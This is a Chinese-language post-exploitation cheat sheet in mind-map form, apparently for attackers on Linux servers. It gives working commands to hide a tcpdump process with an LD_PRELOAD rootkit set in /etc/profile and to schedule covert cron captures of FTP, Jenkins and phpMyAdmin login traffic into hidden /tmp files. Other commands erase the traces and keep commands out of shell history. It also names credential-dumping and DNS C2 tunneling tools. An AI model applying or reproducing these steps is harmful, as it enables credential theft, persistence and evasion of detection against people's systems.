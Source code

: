 - 通过普通用户权限隐形记录SSH登录密码

### 账户密码提取

- mimipenguin(CVE-2018-20781)
- 本地密码嗅探

	- 务必在高权限(root/system/administrator)下进行，挑个好时段，耐心等待，抓完就关，不建议在流量非常大的端口上进行这种嗅探操作
	- 隐藏tcpdump进程

		- libprocesshider

			- 利用 LD_PRELOAD 来劫持系统函数，适用于CentOS 5.x，6.x

				- 用完之后删掉对应的环境变量和so之后重启服务器即可

					- static const char* process_to_filter = "tcpdump";

	- make
mv libprocesshider.so /usr/local/lib
echo "export LD_PRELOAD=/usr/local/lib/libprocesshider.so" >> /etc/profile
source /etc/profile
crontab -l
cat /var/spool/cron/root
echo '*/10 * * * * /usr/sbin/tcpdump -i eth0 -s 0 -A -vv dst host x.x.x.x and port 21 -w /tmp/.Sys_Cache.pcap' >> /var/spool/cron/root
ls -la /tmp/
sed -i "/tcpdump/d" /var/spool/cron/root
crontab -l
ps -ef | grep "tcpdump" | grep -v "grep"
	- # export HISTCONTROL=ignorespace      养成习惯,带空格敲命令,只对当前shell进程有效,记得把后续要执行的所有命令前都带个空格,避免记录到命令历史
# sed -i "/libprocesshider/d" /etc/profile
# rm -f /usr/local/lib/libprocesshider.so //再干掉tcpdump进程
	- 抓取Jenkins

		- GET /manager/html
Host: x.x.x.x:8080
		- # tcpdump -i eth0 -s 0 -A -vv dst host 192.168.159.6 and port 8080 -w /tmp/.WebCache.pcap

	- 抓取POST表单

		- POST /phpMyAdmin/index.php
Host: x.x.x.x
		- # tcpdump -i eth0 -s 0 -A -vv 'tcp port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)' -w /tmp/.Cache.pcap

### 建立隧道

- DNScat2-通过DNS隧道进行C&C通信
- 使用stunnel封装特定服务到https流量
- 使用httptunnel封装特定服务到http流量
- SSH代理及转发
